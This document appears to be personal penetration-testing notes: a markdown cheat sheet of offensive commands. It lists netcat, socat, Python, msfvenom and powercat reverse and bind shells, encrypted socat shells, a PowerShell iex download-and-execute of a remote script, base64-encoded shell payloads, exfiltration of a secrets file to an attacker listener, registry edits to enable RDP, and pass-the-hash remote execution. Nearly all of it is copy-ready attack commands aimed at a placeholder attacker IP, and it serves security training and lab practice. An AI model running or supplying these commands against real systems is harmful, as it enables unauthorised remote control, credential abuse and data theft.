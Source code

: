 ## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
	`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
	`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
	`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
	`socat TCP4:{ip-address}:443 file:passwords.txt,create`

- powershell 
	- `Set-ExecutionPolicy Unrestricted` must be applied beforehand
	- Download wget.exe from a websever (such as a SimpleHTTPServer) :
	 `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{ip-address}/wget.exe','C:\Users\offsec\Desktop\wget.exe')" `

- SMB
	- set up a SMB server on Kali with a share called Tools in the wd
	`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .`
	- copy a file from Kali to Windows
	`copy \\{ip-address}\tools\file.ext file.ext`
	- copy a file from Windows to Kali
	`copy file.ext \\{ip-address}\tools\file.ext`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 

- socat (unencrypted)
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs (linux): `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`
	- victim runs (windows): `socat TCP4:{ip-address}:4444 EXEC:cmd.exe,pipes`

- netcat without `-e` or `-c` on victim
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip-address} 1234 >/tmp/f`

- msfvenom to create reverse shell binaries
	- windows: `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f exe -o reverse.exe`
	- linux: 
	- attacker can set up a listener with netcat of metasploit's multi/handler

- python
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("PUT-IP-HERE",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs (linux): `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- victim runs (windows): `socat -d -d TCP4-LISTEN:443 EXEC:cmd.exe,pipes`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL & Socat
Utilize SSL certificates to encrypt data sent between hosts

### Generate the cert
- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`

### Reverse shell
- attacker socat listener utilizing the cert (linux)
	- `sudo socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork`
- victim socat SSL connection to listener (windows)
	- `socat - OPENSSL:{ip-address}:443,verify=0 EXEC:cmd.exe,pipes`

### Bind Shell
- transfer cert to victim if openssl is not installed locally
- victim socat listener utilizing the cert (windows)
	- `socat OPENSSL-LISTEN:443,cert=cert.pem,verify=0,fork EXEC:cmd.exe,pipes`
- attacker socat SSL connection to listener (linux)
	- `socat - OPENSSL:{ip-address}:443,verify=0`

## Shells with powercat
[powercat](https://github.com/besimorhino/powercat) is basically a powershell version of netcat. 

### Setup
- load powercat into the powershell instance
	- after file transfer from kali: `. .\powercat.ps1`
	- download if the victim has internet access `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`
	- Scripts loaded in this way will only be available in the current PowerShell instance and will need to be reloaded each time we restart PowerShell.

### powercat file transfers
- exfiltrate secrets from a windows victim to kali
	- attacker listening for files:
		- `sudo nc -nlvp 443 > secrets.txt`
	- victim using powercat
		- `powercat -c {kali-ip} -p 443 -i C:\Users\Offsec\secrets.txt`
	- hangs? had to hit ctrl c on windows, but the file was fine :shrug:

### powercat reverse shell
- attacker runs: `sudo nc -lvp 443`
- victim runs `powercat -c {ip-address} -p 443 -e cmd.exe`

### powercat bind shell
- victim listener runs: `powercat -l -p 443 -e cmd.exe`
- attacker kali runs: `nc -nv {ip-address} 443`

### reverse shell with encoded payload
Powercat can also generate stand-alone payloads. In the context of powercat, a payload is a set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user. You **CANNOT** pass filename to `powershell.exe -E` , must use the encoded string.

- attacker sets up listener `sudo nc -nlvp 443`
- victim creates payload in powershell
```
powercat -c {attacker-ip} -p 443 -e cmd.exe -ge > enc_payload.ps1
```
- victim copies base64 encoded string from enc_payload.ps1 and passes it to `powershell.exe -E` (run from powershell) 
	- `powershell.exe -E {base64-payload}` 
		- this seems super finnicky. don't use double quotes for payload and include any newlines in copy/paste 

### bind shell with encoded payload
Similar to encoded reverse shells, you **CANNOT** pass filename to `powershell.exe -E` , must use the encoded string.
- victim creates encoded bind payload 
	- `powercat -l -p 443 -e cmd.exe -ge > enc_bindpayload.ps1`
- victim runs in powershell the listener `powershell.exe -E {base64-payload}`
	- no quotes, include newlines, had to press enter one extra time after running the command
- attacker connects from kali
	- `nc -nv {victim-ip} 443`

## Shell upgrades
- upgrade a bad shell with pty: `python -c 'import pty; pty.spawn("/bin/bash")'` 

## Other Windows Shell-like options
- RDP
	- Create a regfile.reg file with `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalService` inside
	- `"fDenyTSConnections"=dword:00000000"`
	- `reg import regfile.reg`
	- `net start "termservice"`
	- `sc config termservice start= auto`
	- `net start termservice`
- [PSExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec): a light-weight telnet-replacement that lets you execute processes on other systems
	- `.\PsExec64.exe -accepteula -i -s C:\path\to\reverse.exe` (see msfvenom to create reverse shell binaries)
	- **don't** use this on real client systems! (it leaves artifacts)
- [Winexe](https://tools.kali.org/maintaining-access/winexe): remotely execute commands on Windows from a Linux machine
	- requires creds. If the creds you have are admin, you can use the --system option to spawn a system shell.
	- `winexe -U '{user}%{password}' //{ip-address} cmd.exe`
- Pth-winexe: pass-the-hash version of Winexe
	- `pth-winexe -U '{user}%{LM-hash}:{NTLM-hash}' //{ip-address} cmd.exe`
